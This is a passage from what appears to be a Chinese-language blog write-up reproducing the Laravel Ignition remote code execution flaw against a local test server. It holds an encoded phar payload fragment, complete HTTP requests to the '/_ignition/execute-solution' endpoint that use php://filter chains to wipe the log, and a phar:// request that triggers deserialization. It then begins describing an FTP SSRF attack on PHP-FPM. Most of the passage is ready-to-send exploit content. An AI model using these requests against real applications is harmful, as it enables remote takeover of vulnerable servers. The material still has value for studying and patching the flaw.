 ```json
=00=41=00=41=00=48=00=52=00=6C=00=63=00=33=00=52=00=30=00=5A=00=58=00=4E=00=30=00=45=00=31=00=72=00=6D=00=50=00=6C=00=33=00=47=00=64=00=63=00=55=00=68=00=31=00=33=00=63=00=2B=00=58=00=47=00=77=00=6D=00=37=00=50=00=64=00=2B=00=47=00=76=00=59=00=43=00=41=00=41=00=41=00=41=00=52=00=30=00=4A=00=4E=00=51=00=67=00=3D=00=3D=00a"
  }
}
```
把不需要的内容清除：
```json
POST /_ignition/execute-solution HTTP/1.1
Host: 127.0.0.1:8000
Content-Type: application/json
Connection: close
Content-Length: 297

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "theoyu",
    "viewFile": "php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
  }
}
```
![image-20210602221221071](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-02-image-20210602221221071.png)

接下来直接打就行。

```json
POST /_ignition/execute-solution HTTP/1.1
Host: 127.0.0.1:8000
Content-Type: application/json
Connection: close
Content-Length: 237

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "theoyu",
    "viewFile": "phar:///phpStudy/PHPTutorial/WWW/cms/laravel/storage/logs/laravel.log/test.txt"
  }
}
```

## 0x04 利用FTP SSRF攻击FPM

这其实算是一个比较老的点，但我最近一次接触还是在[蓝帽杯 One Pointer PHP](https://theoyu.top/posts/bluehat/)上，这里的构造基本上相同。

- file_get_contents()连接到我们的FTP服务器，并下载file.txt。
- file_put_contents()连接到我们的FTP服务器，并将其上传回file.txt。

我们使用FTP协议的被动模式让file_get_contents()在我们的服务器上下载一个文件，当它试图使用file_put_contents()把它上传回去时，我们将告诉它把文件发送到127.0.0.1:9000(fpm绑定的本地端口)。

